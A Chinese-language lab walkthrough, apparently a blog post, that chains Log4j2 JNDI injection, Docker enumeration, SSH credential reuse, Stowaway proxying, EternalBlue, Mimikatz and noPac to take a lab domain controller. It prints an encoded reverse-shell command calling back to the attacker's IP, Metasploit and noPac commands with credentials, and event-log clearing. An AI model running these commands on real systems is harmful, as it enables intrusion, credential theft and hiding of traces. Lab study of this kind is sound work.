



# 环境搭建


根据给的文件直接启动即可，一共三台机器


在Ubuntu中开启docker


# 外网

## 信息收集

用fscan对网段进行扫描，排除我知道的机器，最后确认了目标靶机位192.168.50.89


用nmap对目标靶机进行扫描


发现看了两个端口，一个为ssh，一个为38080

## GetShell

这里是打的Log4j2，我只找到了hello路由，确实没找到payload参数来打log4j2


```
JNDI-Injection-Exploit-master % java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUwLjEyOC8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.50.128"
```

这里我直接用本地的机器来接受反弹的shell了



getshell后查看是否为docker


看到了`.dockerenv`发现是docker环境

因为是docker环境，我们并没有办法进行横向，所以尝试docker逃逸，首先想到的是内核逃逸，内核是5.4.0-84-generic


而dirtypipe的影响范围不满足


而该内核版本也不满足脏牛提权，因为docker api的2375端口也没开放，暂不考虑

查看是否为特权模式启动，`cat /proc/self/status | grep CapEff`


如果是以特权模式启动的话，`CapEff`对应的掩码值应该为`0000003fffffffff`

从Ubuntu的docker版本来看，CVE-2019-5736（docker runc漏洞）也不满足，需要的版本小于18.09.2


但是在/root找到一个flag.txt


里面居然是一个账户密码，想到最开始开了22端口，尝试用这个账户去登陆ssh

成功登陆Ubuntu


# 内网

## web机信息收集

查看Ubuntu的网卡，发现了另外一张网卡，在10.0.1.6/24这个段


我一般喜欢直接用fscan扫，不过这种动静会比较大，应该只适合打靶场，实际环境下可以考虑其他方法，linux就用bash和python，windows就是powershell，bat，vbs化

先看看fcsan的扫描结果吧


扫到了win7有ms17-010

```
for i in 10.0.1.{1..254}; do if ping -c 3 -w 3 $i &>/dev/null; then echo $i Find the target; fi; done
```


这样就可以去小动静找到一些机器，但是有些时候禁ping的话就没法用了

## 内网代理

代理的话我不太喜欢用frp去做内网代理，更倾向于stowaway


接下来可以用proxifier走全局代理，如果用msf的话，也可以直接在msf中走socks5多代理

```
msf6 > setg Proxies socks5:192.168.50.128:7777
msf6 > set ReverseAllowProxy true
```


使用smb版本探测模块对目标进行扫描


探测到目标是Window7，并且存在域REDTEAM，接下来用ms17-010的扫描模块进行扫描



确实存在ms17-010

# 横向到win7

## Ms17-010

用msf打ms17-010的时候，修改一下Payload，目标机器可能不出网，需要用正向的payload

```
use windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 10.0.1.7
run
```


用exploit/windows/smb/ms17_010_eternalblue，这个虽然可能会打蓝屏，但是其他两个需要管道

## win7信息收集


看到已经是System权限了


可以直接加载Mimikatz把密码先抓出来


加载mimikatz后可以用help来看对应的命令了


```
kerberos：kerberos相关的模块
livessp：尝试检索livessp凭据
mimikatz_command：运行一个定制的命令
msv：msv凭证相关的模块，列出目标主机的用户密码哈希
ssp：ssp凭证相关的模块
tspkg：tspkg凭证相关的模块
wdigest：wdigest凭证相关的模块
```

不能加载全部的就看看单个的也行


这是个域内用户

# 域内信息收集

查看域内用户


在win7中找到了dns服务器的ip


定位域控

```
net group "Domain Controllers" /domain
ping DC
```


发现域控为10.0.0.12

## 拿下域控

**前置条件：需要一个域用户（CVE-2021-42287 and CVE-2021-42278）**

先把第二层的代理弄出来，在原本的节点上开一个监听


通过msf给win7上传一个stowaway


看到了新节点的加入



在8888端口再起一个socks代理


给python脚本添加一个两行代码走socks代理

```
socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 8888)
socket.socket = socks.socksocket
```


这个漏洞有两个脚本

```
https://github.com/WazeHell/sam-the-admin

https://github.com/Ridter/noPac
```

第一个的话需要kali才能打，因为需要用到特定路径下的两个命令

这里我选择的是第二个noPac

```
python3 noPac.py -use-ldap redteam.lab/root:Red12345 -dc-ip 10.0.0.12 -shell
```


这样就拿下了域控


最后在msf中可以清除痕迹，通过`clearev`或者`run event_manger -c`


这次的靶场比较简单，通过log4j2拿下docker，在docker中找到了能够登陆宿主机的ssh账户密码，通过ms17-010横向到win7，通过mimikatz抓到了域内用户的账号密码，在获取到一个域内用户的情况下，通过noPac直接横向到域控

这次的靶场主要是通过一些漏洞来拿下域控的，但是还是了解到了一些之前不清楚的地方，后续的话再去了解一下其他的手法。


参考链接：

https://mp.weixin.qq.com/s/UAeOtOwigsB45hcjYEGh9g